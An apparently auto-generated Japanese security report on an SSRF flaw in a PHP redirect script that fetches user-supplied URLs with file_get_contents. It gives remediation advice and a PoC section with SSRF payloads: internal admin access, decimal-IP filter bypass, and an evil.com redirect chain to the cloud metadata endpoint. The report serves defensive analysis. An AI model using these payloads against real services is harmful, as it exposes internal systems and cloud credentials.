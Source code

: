 # Analysis Report

![高信頼度](https://img.shields.io/badge/信頼度-高-red) **信頼度スコア: 90**

## 脆弱性タイプ

- `SSRF`
- `SSRF`

## PAR Policy Analysis

### Principals (データ源)

- **$_GET['url']**: Untrusted
  - Context: HTTPリクエスト
  - Risk Factors: 未検証の外部入力

### Actions (セキュリティ制御)

- **SSRF**: Missing
  - Function: URLバリデーション
  - Weaknesses: 入力値検証なし, 外部リクエスト可能
  - Bypass Vectors: DNS rebinding, IP address encoding tricks, Redirect chain

### Resources (操作対象)

- **file_get_contents**: High
  - Operation: HTTP(S)リクエスト
  - Protection: 

## 詳細解析

このコードはユーザーから渡されたURLを検証なしにfile_get_contentsで取得しており、SSRF攻撃が可能です。外部・内部ネットワークの任意ホストへリクエストを送信でき、DNS rebindingやIPアドレスのエンコーディング、リダイレクトチェーンによるバイパスも可能です。

## PoC（概念実証コード）

```text
1. 内部UI参照
http://example.com/redirect.php?url=http://127.0.0.1:8080/admin

2. IPエンコーディングバイパス
http://example.com/redirect.php?url=http://2130706433

3. リダイレクトチェーン利用
http://example.com/redirect.php?url=http://evil.com/chain?target=http://169.254.169.254/latest/meta-data
```

## 修復ガイダンス

### 入力バリデーション

- **Required**: ホワイトリスト方式のURL検証を実装
- **Guidance**: 受信可能なドメインやIPレンジを厳格に制限し、リダイレクト先のチェーン解析も行う
- **Priority**: high

## 解析ノート

ユーザー入力がそのままfile_get_contentsへ渡されており、外部だけでなく内部IPやメタデータサーバへのアクセスも可能。バイパス想定としてDNSリバインディング、IPエンコーディング、リダイレクトチェーンを検討。パリティモデルではPrincipalは$_GET['url']（untrusted）、Resourceはfile_get_contentsによるHTTPリクエスト（high）。Actionに検証がないためpolicy violationを検出。

